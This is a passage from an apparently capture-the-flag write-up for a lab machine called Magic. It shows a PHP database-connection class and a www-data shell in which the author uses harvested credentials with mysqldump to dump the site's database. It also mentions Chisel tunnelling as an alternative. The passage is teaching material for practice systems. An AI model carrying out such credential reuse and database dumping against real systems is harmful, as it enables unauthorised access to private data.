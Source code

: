 ```
            try
            {
                self::$cont =  new PDO( "mysql:host=".self::$dbHost.";"."dbname=".self::$dbName, self::$dbUsername, self::$dbUserPassword);
            }
            catch(PDOException $e)
            {
                die($e->getMessage());
            }
        }
        return self::$cont;
    }

    public static function disconnect()
    {
        self::$cont = null;
    }
}

```

### Database Dump

Unfortunately, `mysql`, the binary I would typically use to connect to the local port and interrogate the DB, isn’t on the box. This is a case where having a full PTY shell on the box paid off, because when I typed `mys[tab][tab][tab]`, it gave a list of things that were on the box:

```

www-data@ubuntu:/var/www/Magic$ mysql
mysql_config_editor        mysql_secure_installation  mysqladmin                 mysqld                     mysqldumpslow              mysqlrepair
mysql_embedded             mysql_ssl_rsa_setup        mysqlanalyze               mysqld_multi               mysqlimport                mysqlreport
mysql_install_db           mysql_tzinfo_to_sql        mysqlbinlog                mysqld_safe                mysqloptimize              mysqlshow
mysql_plugin               mysql_upgrade              mysqlcheck                 mysqldump                  mysqlpump                  mysqlslap

```

It would have been not that hard to upload [Chisel](https://github.com/jpillora/chisel) and create a tunnel from my host to the MySQL port (3306) listening on localhost on Magic, but `mysqldump` jumped out as an alternative. Once I figured out the syntax, it worked like a charm:

```

www-data@ubuntu:/$ mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic
mysqldump: [Warning] Using a password on the command line interface can be insecure.              
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)                                           
--                                               
-- Host: localhost    Database: Magic                                                             
-- ------------------------------------------------------                             
-- Server version       5.7.29-0ubuntu0.18.04.1                                       

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;                                 
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;                               
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;                                 
/*!40101 SET NAMES utf8 */;              
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;              
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;
```